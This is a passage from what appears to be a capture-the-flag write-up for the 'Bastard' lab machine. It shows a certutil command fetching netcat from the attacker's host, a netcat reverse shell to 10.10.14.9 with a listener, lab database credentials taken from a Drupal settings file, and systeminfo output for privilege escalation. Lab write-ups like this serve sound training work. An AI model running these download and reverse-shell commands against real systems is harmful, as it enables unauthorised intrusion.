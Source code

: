 - We get a netcat binary in our target (we serve it using python and get it with certutil) `certutil.exe -urlcache -f http://10.10.14.9/nc.exe nc.exe`
- Let's get a more interactive shell `nc.exe -e cmd.exe 10.10.14.9 4444` (we also need to setup a listener `rlwrap nc -lvp 4444`)  

![shell](../.res/2022-09-05-12-59-37.png)  

- We get a better shell  

![better shell](../.res/2022-09-05-13-44-07.png)

- We have some creds in sites\default\settings.php

```bash
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'root',
      'password' => 'mysql123!root',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
$drupal_hash_salt = 'sHsUB6KgUSo7-xB5HyYfAcgpyy9R8xPGkMIUolnT-yY';
```

## Privesc

- Here are the systeminfo

```dos
Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          5/9/2022, 5:42:02 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
```